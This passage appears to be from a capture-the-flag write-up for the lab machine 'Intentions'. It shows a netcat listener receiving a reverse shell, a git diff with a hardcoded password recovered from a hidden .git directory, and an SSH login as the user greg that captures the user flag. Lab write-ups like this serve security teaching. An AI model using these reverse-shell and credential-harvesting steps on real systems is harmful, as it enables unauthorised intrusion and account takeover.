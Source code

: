 ```
┌─[parrot@parrotos]─[~/htb/intentions]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.170.72] 34090
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# Finding gregs password
Gregs password was found in the history of a hidden .git directory.

```
diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
new file mode 100644
index 0000000..f57e37b
--- /dev/null
+++ b/tests/Feature/Helper.php
@@ -0,0 +1,19 @@
+<?php
+
+namespace Tests\Feature;
+use Tests\TestCase;
+use App\Models\User;
+use Auth;
+class Helper extends TestCase
+{
+    public static function getToken($test, $admin = false) {
+        if($admin) {
+            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
+            return $res->headers->get('Authorization');
+        } 
+        else {
+            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
+            return $res->headers->get('Authorization');
+        }
+    }
+}
```
# SSH as user greg

Credentials found in the .git directory worked when logging in as greg via SSH. User flag captured.

```
greg@intentions:~$ ls -la
total 52
drwxr-x--- 4 greg greg  4096 Jun 19 13:09 .
drwxr-xr-x 5 root root  4096 Jun 10 14:56 ..
lrwxrwxrwx 1 root root     9 Jun 19 13:09 .bash_history -> /dev/null
-rw-r--r-- 1 greg greg   220 Feb  2 18:10 .bash_logout
-rw-r--r-- 1 greg greg  3771 Feb  2 18:10 .bashrc
drwx------ 2 greg greg  4096 Jun 10 15:18 .cache
drwxrwxr-x 3 greg greg  4096 Jun 10 15:26 .local
-rw-r--r-- 1 greg greg   807 Feb  2 18:10 .profile
-rw-r--r-- 1 greg greg    39 Jun 14 10:18 .vimrc
-rwxr-x--- 1 root greg    75 Jun 10 17:33 dmca_check.sh
-rwxr----- 1 root greg 11044 Jun 10 15:31 dmca_hashes.test
-rw-r----- 1 root greg    33 Jul  3 19:38 user.txt
greg@intentions:~$ 
```